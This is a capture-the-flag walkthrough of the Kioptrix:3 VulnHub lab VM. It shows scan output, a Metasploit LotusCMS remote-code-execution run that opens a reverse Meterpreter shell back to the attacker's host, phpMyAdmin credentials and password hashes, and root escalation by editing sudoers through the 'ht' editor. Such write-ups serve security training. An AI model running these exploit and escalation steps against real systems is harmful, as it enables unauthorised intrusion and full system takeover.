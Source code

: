 
Kioptrix:3

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Exploiting LotusCMS - Metasploit
[+] export TERM
[+] Password HASH cracking
[+] Privilege Escalation abusing SUDO right /urs/local/bin/ht
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Results from Nmap Scanning

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.111
Host is up (0.00032s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 08:00:27:5D:A4:7A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.56.111

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.88 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Results from Nikto

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.111
+ Target Hostname:    192.168.56.111
+ Target Port:        80
+ Start Time:         2019-10-03 03:06:02 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, inode: 631780, size: 23126, mtime: Fri Jun  5 15:22:00 2009
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 5.6.9). PHP 5.5.25 and 5.4.41 are also current.
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 7534 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2019-10-03 03:06:12 (GMT-4) (10 seconds)
---------------------------------------------------------------------------

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing we can find a LotusCMS 
Looking for available exploits

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/kioptrix3# searchsploit lotuscms
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)                                                                                                       | exploits/php/remote/18565.rb
LotusCMS 3.0.3 - Multiple Vulnerabilities                                                                                                                           | exploits/php/webapps/16982.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Exploitation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf5 > use exploit/multi/http/lcms_php_exec
msf5 exploit(multi/http/lcms_php_exec) > set rhosts 192.168.56.111
rhosts => 192.168.56.111
msf5 exploit(multi/http/lcms_php_exec) > set uri /
uri => /
msf5 exploit(multi/http/lcms_php_exec) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Sending stage (38247 bytes) to 192.168.56.111
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.111:51386) at 2019-10-03 03:09:15 -0400

meterpreter > shell
Process 4340 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We found the credentials for the phpmyadmin discovered by nikto 
root : fuckeyou
After loggin into phpmyadmin we found the following accounts and passowrd hashes

dreg : 0d3eccfb887aabd50f243b3f155c0f85

loneferret : 5badcaf789d3d1d09794d8f021f40f0e

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Kioptrix%3A3/kioptrix31.png)
Connecting with ssh

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh loneferret@192.168.56.111
loneferret@192.168.56.111's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Thu Oct  3 03:46:37 2019 from 192.168.56.102
loneferret@Kioptrix3:~$ id
uid=1000(loneferret) gid=100(users) groups=100(users)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
loneferret@Kioptrix3:~$ ht
Error opening terminal: xterm-256color.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Changing the terminal
export TERM=xterm

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
loneferret@Kioptrix3:~$ sudo ht /etc/sudoers
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ export TERM=xterm

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege escalation
sudo /usr/local/bin/ht
Change the permissions on user loneferret to the same as roots

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Kioptrix%3A3/kioptrix32.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
loneferret@Kioptrix3:~$ sudo /usr/local/bin/ht
loneferret@Kioptrix3:~$ sudo su
[sudo] password for loneferret: 
root@Kioptrix3:/home/loneferret# id
uid=0(root) gid=0(root) groups=0(root)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

